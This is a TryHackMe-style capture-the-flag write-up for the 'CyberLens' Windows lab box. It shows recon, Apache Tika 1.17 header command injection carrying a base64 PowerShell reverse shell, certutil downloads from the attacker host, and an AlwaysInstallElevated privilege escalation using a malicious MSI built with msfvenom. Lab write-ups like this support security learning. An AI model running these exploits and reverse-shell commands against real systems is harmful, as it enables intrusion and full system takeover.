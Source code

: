 ## RECON 
>Open ports indicate we have a windows host :-
```bash
PORT      STATE SERVICE       VERSION
80/tcp    open  http?
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CyberLens
| Issuer: commonName=CyberLens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-06T11:12:33
| Not valid after:  2024-12-06T11:12:33
| MD5:   a74e:32db:03c5:dd03:735d:8ab6:ade9:6e63
|_SHA-1: 6290:9426:34ab:f033:c7af:4cc8:c158:ca2c:9c92:9f77
| rdp-ntlm-info:
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-07T11:28:06+00:00
|_ssl-date: 2024-06-07T11:29:34+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-06-07T11:28:05
|_  start_date: N/A
```
Not a domain joined object from the scans so its just a standalone box. 
## SMB RECON
No readable shares | no writable shares | no null sessions | no guest sessions.

## HTTP RECON
Already aware of a vhost FQDN from the room about : `cyberlens.thm` so add that to hosts file, nothing but some form of image metadata scanner, assessing the source code reveals a JS script with a function that passes the uploaded file to another service running on port 61777 at the `/meta` endpoint
```js
 fetch("http://cyberlens.thm:61777/meta", {
            method: "PUT",
            body: fileData,
            headers: {
              "Accept": "application/json",
              "Content-Type": "application/octet-stream"
            }
          })
          .then(response => {
            if (response.ok) {
              return response.json();
            } else {
              throw new Error("Error: " + response.status);
            }
```
initially I spent a little time playing around if I could fix in code into an image metadata with exiftool and upload to get RCE but that didn't work out.

## 61777 RECON
The landing page of this site leaks the service and its version number, searchsploit and dorking github for an exploit reveals an exploit for this version of Apache Tika 1.17 with a command injection vulnerability in its header.

Wasted alot of time manually trying to exploit this and setting the headers it didn't feel worth the stress lol so using the python exploit from exploitdb rather than using msf cause msf reduces steeze :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ ss 'tika 1.17'
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tika 1.15 - 1.17 - Header Command Injection (Metasploit)                                    | windows/remote/47208.rb
Apache Tika-server < 1.18 - Command Injection                                                      | windows/remote/46540.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

>Send reverse shell with the exploit and powershell b64 encoded payload :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ python2 tika.py cyberlens.thm 61777 "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADIAMAAzAC4AMQA3ADAAIgAsADEAMwAzADcAKQ<SNIP>"
```

# FOOTHOLD
>We in :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ rlwrap -cAr ncat -nvlp 1337
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.99.115:49771.

PS C:\Windows\system32> PS C:\Windows\system32> gc (Get-PSReadLineOption).HistorySavePath
gpudpate /force
gpupdate /force
PS C:\Windows\system32> cd \users\cyberlens\appdata\local\temp
PS C:\users\cyberlens\appdata\local\temp> certutil -urlcache -split -f http://10.9.203.170/SharpUp.exe
```

Running checks with SharpUp and we have an oldie privesc bug `AlwaysInstallElevated` enabled in the registry keys that allows msi binaries to be executed as admin :-
```bash
PS C:\users\cyberlens\appdata\local\temp> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===
[!] Modifialbe scheduled tasks were not evaluated due to permissions.
Registry AutoLogon Found

=== Always Install Elevated ===
        HKCU: 1
        HKLM: 1
```
>Exploit by generating an msi package with msfvenom :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.203.170 LPORT=1338 -f msi -o aie.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: aie.msi
```

>Verify the registry keys are set to 1 and its not a false positive from SharpUp and send the msi package over :-
```bash
PS C:\users\cyberlens\appdata\local\temp> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\users\cyberlens\appdata\local\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
    DisableMSI    REG_DWORD    0x0

PS C:\users\cyberlens\appdata\local\temp> PS C:\users\cyberlens\appdata\local\temp> certutil -urlcache -split -f http://10.9.203.170/aie.msi
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
```

# ROOT
Trigger the binary with `msiexec` :-
```bash
PS C:\users\cyberlens\appdata\local\temp> msiexec /i .\aie.msi /quiet /qn /norestart
PS C:\users\cyberlens\appdata\local\temp> msiexec /i C:\users\cyberlens\appdata\local\temp\aie.msi /quiet /qn /norestart
```
and we root : 
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ rlwrap -cAr ncat -nvlp 1338
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1338
Ncat: Listening on 0.0.0.0:1338
Ncat: Connection from 10.10.99.115:49812.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd \users\administrator\desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

06/06/2023  07:45 PM    <DIR>          .
06/06/2023  07:45 PM    <DIR>          ..
11/27/2023  07:50 PM                24 admin.txt
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
               3 File(s)          1,105 bytes
               2 Dir(s)  14,939,779,072 bytes free
```
Tasleeeem.

